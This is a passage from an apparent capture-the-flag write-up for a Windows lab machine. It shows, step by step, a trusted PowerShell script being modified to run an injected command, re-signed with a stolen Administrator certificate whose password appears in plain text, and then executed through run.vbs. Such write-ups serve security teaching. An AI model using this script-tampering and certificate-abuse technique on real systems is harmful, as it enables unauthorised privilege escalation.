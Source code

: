     c:\Get-bADpasswords>copy Get-bADpasswords.ps1 \share\gbp.txt
            1 file(s) copied.



I'll download the script, and a some line to the top that will print
details about the user running the script:



    whoami /all > C:\Programdata\0xdf.txt



I'll upload that back over SMB, and copy it into place.

#### Sign Script

Now I need to sign the script, because modifying it invalidated the old
signature. I'll first import the certificate into my user's certificate
store and get a reference to it as `$cert`:



    PS C:\> $pass = ConvertTo-SecureString -String 'abceasyas123' -AsPlainText -Force

    PS C:\get-badpasswords> $cert = Import-PfxCertificate -FilePath 'C:\$Recycle.bin\S-1-5-21-3783586571-2109290616-3725730865-2663\$RLYS3KF.pfx' -Password $pass -CertStoreLocation Cert:\CurrentUser\My

    PS C:\get-badpasswords> $cert

       PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My

    Thumbprint                                Subject
    ----------                                -------
    204F12473FD6911584501215758270B25701D049  CN=Administrator, CN=Users, DC=windcorp, DC=htb 



Now I can use that to sign the file:



    PS C:\get-badpasswords> Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert
    Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert

        Directory: C:\get-badpasswords

    SignerCertificate                         Status                                 Path
    -----------------                         ------                                 ----
    204F12473FD6911584501215758270B25701D049  Valid                                  Get-bADpasswords.ps1 



#### Trigger Execution

To trigger execution, I'll run `run.vbs`:



    PS C:\get-badpasswords> cscript .\run.vbs
    Microsoft (R) Windows Script Host Version 5.812
    Copyright (C) Microsoft Corporation. All rights reserved.

